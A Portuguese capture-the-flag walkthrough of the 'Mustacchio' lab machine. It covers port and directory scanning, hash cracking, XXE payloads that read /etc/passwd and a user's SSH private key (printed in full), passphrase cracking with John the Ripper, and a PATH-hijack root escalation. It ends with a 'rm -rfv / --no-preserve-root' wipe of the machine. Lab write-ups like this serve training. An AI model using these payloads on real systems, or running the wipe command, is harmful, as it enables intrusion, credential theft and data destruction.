 MUSTACCHIO CTF

Ao inicar dei nmap 

    nmap -A -sV IP 

Encontrei 2 portas 22, 80

Assim partindo pra procura de diretorios usando o gobuster

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

Encontrando o diretorio /custom que possuia dentro da pasta js tinha um arquivo de backup que ao baixa-lo

    wget IP/custom/users.bak

Ao ler o arquivo encontrava-se um username e uma senha 

    admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Assim 

    username: admin
    password: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Tentando conectar no ssh com essas informacoes nao foi possivel, entao fui atras de outras formas, percebi que essa senha e uma chave encriptada entao fui a um site descriptar essa senha

    hashtoolkit

Ao colocar essa senha la ele me retornava a senha descriptada

    bulldog19

Ao tentar acessar de varias formas e sem sucesso percebi que algo estava errado, refiz os processos para ver o que deixei passar e quando refiz o nmap, percebi onde estava o erro, analisei novamente de uma forma mais agressiva 

    nmap -p- -sV IP

Assim mostrando mais 1 porta que nao tinha acesso antes.. a porta "8765"
Agora acessando essa porta IP:8765 tinha uma pagina admin... agora era so logar com os dados que ja tinhamos

    username admin
    pass bulldog19

Ao acessar esse painel admin tinha uma caixar para inserir comentarios, ao olhar o codigo fonte tinha 2 comentarios interessantes 

    //document.cookie = "Example=/auth/dontforget.bak";
    function cheacktarea() {
    let tbox = document.getElementById("box").value;
    if (tbox == null || tbox.lenght == 0 ) {
    alert("Insert XML Code!")
        }
    }

    <!-- Barry, you can now SSH in using your key! -->

Assim tendo acesso a mais um arquivo de backup e um username 

    wget IP:8765/auth/dontforget.bak

    <?xml version="1.0" encoding="UTF-8"?>
    <comment>
    <name>Joe Hamd</name>
    <author>Barry Clad</author>
    <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
    </comment>

Para explorar essa falha XXE executando o payload XML para ver se era possivel ler as pastas tambem 

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
    <comment>
    <name>Joe</name>
    <author>dannydev19</author>
    <com>&file;</com>
    </comment> 

Tendo acesso a essa pasta vi que era possivel ler qualquer arquivo entao, fui atras da chave RSA do Barry 

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
    <comment>
    <name>Barry</name>
    <author>dannydev19</author>
    <com>&file;</com>
    </comment>

Assim conseguindo ter acesso a chave RSA 

    -----BEGIN RSA PRIVATE KEY----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

    jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
    bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
    MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
    l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
    Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
    NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
    ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
    TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
    rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
    bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
    4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
    7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
    T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
    ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
    LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
    pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
    laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
    vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
    DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
    6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
    ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
    7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
    1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
    +Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
    7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
    -----END RSA PRIVATE KEY----

Criando o arquivo RSA

    nano barryrsa
    Introduzindo essa chave nesse arquivo

Ao tentar connectar no ssh com essa chave direto percebemos que deu outro erro , essa chave estava encriptada e precisamos da senha dela, agora para isso e preciso usar o programa john the ripper, para usar esse programa, primeiramente vemos se ele esta no nosso sistema 

    locate ssh2john.py

Assim e so executar esse arquivos passando os parametros

    python /usr/share/john/ssh2john.py barryrsa > johncracked.hash
    john --wordlist=/usr/share/wordlists/rockyou.txt johncracked.hash

Assim conseguindo a senha do barry

    username: Barry
    password: urieljames

Assim e so conectar no ssh... Finalmente!!

    ssh -i barryrsa barry@IP

Assim conseguindo acesso a maquina

    cat user.txt
    62d77a4d5f97d47c5aa38b3b2651b831

Agora precisamos escalar nossos privilegios e se tornar o root..
Dentro do perfil do Joe tinha um arquivo chamado "live_log"

    strings live_log
    tail -f /var/log/nginx/access.log

Vendo esse arquivo tinhamos que ir ate o /tmp e criar um arquivo chamado "tail"

    nano tail
    /bin/bash
    chmod 777 tail

Agora dentro do user joe executamos o arquivo "live_long" para conseguir acesso ao root
    
    ./live_log

Assim...

    cat root.txt
    3223581420d906c4dd1a5f9b530393a5

Finalizando...

    touch dannydev19.txt
    rm -rfv / --no-preserve-root 